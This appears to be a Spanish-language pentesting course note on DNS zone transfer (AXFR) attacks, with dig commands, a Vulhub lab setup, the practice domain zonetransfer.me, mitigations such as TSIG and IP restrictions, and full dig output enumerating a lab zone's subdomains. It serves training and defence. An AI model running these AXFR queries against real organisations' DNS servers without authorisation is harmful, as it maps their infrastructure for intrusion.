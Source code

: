 # Ataques de Transferencia de Zona (AXFR – Full Zone Transfer)

En nuestra formación en ciberseguridad ofensiva, uno de los ataques que debemos entender y practicar es el **ataque de transferencia de zona**, también conocido como **AXFR**. Este tipo de ataque se dirige a los servidores DNS (Domain Name System) con el objetivo de extraer información sensible sobre la infraestructura de una organización.

## ¿Qué es un ataque AXFR?

Los servidores DNS son los encargados de traducir nombres de dominio como `ejemplo.com` a direcciones IP como `192.168.1.10`, que son las que utilizan los dispositivos para comunicarse entre sí. En una red, puede haber múltiples registros DNS: registros A (dirección IP), MX (servidores de correo), NS (nombres de servidores), TXT (políticas de seguridad), entre otros.

El protocolo AXFR fue diseñado para permitir la **sincronización de zonas DNS** entre servidores primarios y secundarios. Sin embargo, si no se configura correctamente, este mecanismo puede ser abusado por un atacante para obtener **una copia completa de los registros DNS de un dominio**.

Un atacante puede aprovechar esto simplemente ejecutando una consulta AXFR hacia el servidor DNS objetivo. Si no hay restricciones, el servidor responderá con todos los registros de la zona, exponiendo datos valiosos.

## ¿Cómo se realiza una prueba con `dig`?

Utilizamos la herramienta `dig`, muy común en entornos Unix/Linux, para realizar pruebas de transferencia de zona.

```bash
dig @<IP-del-servidor-DNS> <dominio> AXFR
````

Por ejemplo:

```bash
dig @192.168.1.100 ejemplo.com AXFR
```

Si el servidor no está protegido adecuadamente, nos devolverá todos los registros DNS de `ejemplo.com`.

## Ejemplo práctico (entorno controlado)

Para practicar este ataque de forma legal y controlada, usamos el entorno vulnerable proporcionado por el repositorio **DNS-Zone-Transfer** de Vulhub:

Repositorio: [https://github.com/vulhub/vulhub/tree/master/dns/dns-zone-transfer](https://github.com/vulhub/vulhub/tree/master/dns/dns-zone-transfer)

Pasos:

1. Clonamos el repositorio:
    
    ```bash
    git clone https://github.com/vulhub/vulhub.git
    cd vulhub/dns/dns-zone-transfer
    ```
    
2. Levantamos el entorno vulnerable:
    
    ```bash
    docker-compose up -d
    ```
    
3. Ejecutamos el ataque desde otro terminal:
    
    ```bash
    dig @127.0.0.1 zonetransfer.me AXFR
    ```
    
    La respuesta incluirá todos los registros DNS definidos en esa zona de prueba, demostrando la viabilidad del ataque si no se filtra correctamente el acceso AXFR.
    

## Ejemplo real

Un caso conocido es el dominio `zonetransfer.me`, mantenido por un investigador de seguridad con el objetivo específico de permitir a estudiantes y pentesters practicar transferencias de zona sin infringir ninguna norma legal.

```bash
dig @nsztm1.digi.ninja zonetransfer.me AXFR
```

Este dominio fue configurado intencionalmente para responder a consultas AXFR. Como resultado, podemos ver registros reales como:

- `mail.zonetransfer.me. 3600 IN A 5.196.105.14`
    
- `office.zonetransfer.me. 3600 IN A 4.23.39.254`
    
- `@ IN MX 0 mail.zonetransfer.me.`
    

Este ejemplo real demuestra el tipo de información que un atacante podría explotar si una organización deja abierto este tipo de transferencia.

## Mitigaciones

Para prevenir este tipo de ataques:

- Configuramos los servidores DNS para aceptar transferencias de zona **solo desde direcciones IP autorizadas**.
    
- Usamos técnicas de autenticación segura (como TSIG) para validar los servidores secundarios.
    
- Desactivamos la transferencia de zona si no es necesaria.
    
- Implementamos sistemas de monitoreo DNS que alerten ante solicitudes de AXFR no autorizadas.
    

## Conclusión

Los ataques de transferencia de zona representan una de las formas más sencillas de obtener inteligencia de una red si los servidores DNS no están debidamente configurados. Aprender a identificarlos, explotarlos en entornos de prueba y aplicar las mitigaciones adecuadas es fundamental en nuestro camino hacia convertirnos en profesionales del pentesting y del red teaming.

---

Acción: obtener toda la información de la zona y ver los subdominios

```bash
dig AXFR @127.0.0.1 vulhub.org -p 8081
```

**Nota:** es importante saber previamente el dominio y la ip para poder apuntar hacia su zona de transferencia

Resultado:

```bash
; <<>> DiG 9.18.33-1~deb12u2-Debian <<>> AXFR @127.0.0.1 vulhub.org -p 8081
; (1 server found)
;; global options: +cmd
vulhub.org.		3600	IN	SOA	ns.vulhub.org. sa.vulhub.org. 1 3600 600 86400 3600
vulhub.org.		3600	IN	NS	ns1.vulhub.org.
vulhub.org.		3600	IN	NS	ns2.vulhub.org.
admin.vulhub.org.	3600	IN	A	10.1.1.4
cdn.vulhub.org.		3600	IN	A	10.1.1.3
git.vulhub.org.		3600	IN	A	10.1.1.4
ns1.vulhub.org.		3600	IN	A	10.0.0.1
ns2.vulhub.org.		3600	IN	A	10.0.0.2
sa.vulhub.org.		3600	IN	A	10.1.1.2
static.vulhub.org.	3600	IN	CNAME	www.vulhub.org.
wap.vulhub.org.		3600	IN	CNAME	www.vulhub.org.
www.vulhub.org.		3600	IN	A	10.1.1.1
vulhub.org.		3600	IN	SOA	ns.vulhub.org. sa.vulhub.org. 1 3600 600 86400 3600
;; Query time: 13 msec
;; SERVER: 127.0.0.1#8081(127.0.0.1) (TCP)
;; WHEN: Tue Jun 10 16:10:42 CEST 2025
;; XFR size: 13 records (messages 1, bytes 322)
```

